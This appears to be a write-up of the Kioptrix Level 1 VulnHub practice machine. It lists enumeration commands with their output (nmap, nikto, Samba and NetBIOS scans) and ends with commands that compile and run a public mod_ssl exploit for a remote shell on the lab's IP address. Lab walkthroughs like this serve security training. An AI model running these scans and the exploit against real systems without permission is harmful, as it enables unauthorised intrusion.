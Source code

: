 # Walkthrough: [Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

## Table of Contents

- [Enumeration](#enumeration)
- [Penetration & Privilege Escelation](#penetration-&-privilege-escelation)
- [Bonus](#bonus)
	- [Bruteforce](#brute-force)
	- [Intresting Files](#intresting-files)

## Enumeration
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14`
  
- VM info: `nmap -A -T4 -v 192.168.0.14`

  * <pre>
    22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
    80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
    111/tcp  open  rpcbind     2 (RPC #100000)
    139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
    443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
    1024/tcp open  status      1 (RPC #100024)
    </pre>
    
- Web Server Directory: `dirb -w http://192.168.0.14`

	* Default apache pages/settings.  
  
- Web Server Vurnerabilities: `nikto -h 192.168.0.14`

  * <pre>
    OSVDB-637: Enumeration of users is possible by requesting ~username (responds with 'Forbidden' for users, 'not found' for non-existent users).
    OSVDB-756.mod_ssl/2.8.4, CVE-2002-0082: mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell (difficult to exploit).
    OSVDB-3092: Files found:/test.php
    </pre>
  * [/test.php link](#intresting-files)
    
- Samba info:

  * `smbclient -L 192.168.0.14` **<--- Anon login available**  
  
    <pre>
    IPC$            IPC       IPC Service (Samba Server)
    ADMIN$          IPC       IPC Service (Samba Server)

    Server               Comment
    ---------            -------
    ANTON                Anton server (Samba, Ubuntu)
    KIOPTRIX             Samba Server
    
    Workgroup            Master
    ---------            -------
    MYGROUP              ANTON
    </pre>
  * `enum4linux4 -a -v 192.168.0.14`

- NetBIOS info: `sudo nbtscan -v 192.168.0.14`
  
  * <pre>
    NetBIOS Name Table for Host 192.168.0.14:

    Incomplete packet, 191 bytes long.
    Name             Service          Type             
    ----------------------------------------
    KIOPTRIX         <00>             UNIQUE
    KIOPTRIX         <03>             UNIQUE
    KIOPTRIX         <20>             UNIQUE
    MYGROUP          <00>              GROUP
    MYGROUP          <1e>              GROUP

    Adapter address: 00:00:00:00:00:00
    </pre>

## Penetration & Privilege Escelation
- Nikto revealed a [ssl vurnerability](https://www.exploit-db.com/exploits/47080)
	* Download and compile the exploit:   
	`cd ~/Downloads/ && sudo apt-get install libssl-dev && gcc -o OpenFuck 47080.c -lcrypto`
	* Run the exploit: `./OpenFuck 0x6b 192.168.0.14 443`
---

## Bonus

### Brute Force

### Intresting Files
- /test.php:
  ```
  <?php4

    print "TEST";

  ?>
  ```
